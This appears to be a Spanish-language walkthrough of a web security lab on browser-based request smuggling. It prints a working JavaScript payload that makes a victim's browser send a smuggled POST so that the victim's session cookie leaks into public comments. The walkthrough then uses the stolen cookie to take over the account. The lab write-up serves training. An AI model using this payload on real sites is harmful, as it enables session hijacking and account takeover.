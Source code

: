 En esta última parte, empaquetamos todo el ataque dentro de un payload JavaScript alojado en el servidor de explotación. El script desencadena una petición maliciosa con una petición fragmentada dentro del cuerpo, seguida de una solicitud controlada a /capture-me.

Una vez entregado a la víctima, su navegador ejecuta el código y realiza las peticiones necesarias que provocan la filtración de su cookie de sesión en el área pública del sitio. Extraemos esta información y usamos la cookie robada para acceder a su cuenta y resolver el laboratorio con éxito.

Solucion

el script bueno es este 
(<script>
  var smuggledRequest = [
    "POST /en/post/comment HTTP/1.1",
    "Host: 0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net",
    "Cookie: session=10C0ZiNzSfrPlheSkA0EmCPoX1tgGb9H",
    "Content-Type: application/x-www-form-urlencoded",
    "Content-Length: 900",
    "",
    "csrf=AYsRFi6GRECmO9Nfp6MdsDsoe4ew7FRQ&postId=6&name=test&email=test@test.com&comment=smuggled"
  ].join("\r\n");

  fetch("https://0a2700d203ea680480563a4e0009009d.h1-web-security-academy.net", {
    method: "POST",
    body: smuggledRequest,
    mode: "no-cors",
    credentials: "include"
  });
</script>)
![Pasted image 20250812221322.png](imagenes/Pasted image 20250812221322.png)
Aqui lo vemos reflejado
![Pasted image 20250812221356.png](imagenes/Pasted image 20250812221356.png)
copiamos y pegamos en almacenamiento
![Pasted image 20250812221507.png](imagenes/Pasted image 20250812221507.png)
![Pasted image 20250812221531.png](imagenes/Pasted image 20250812221531.png)
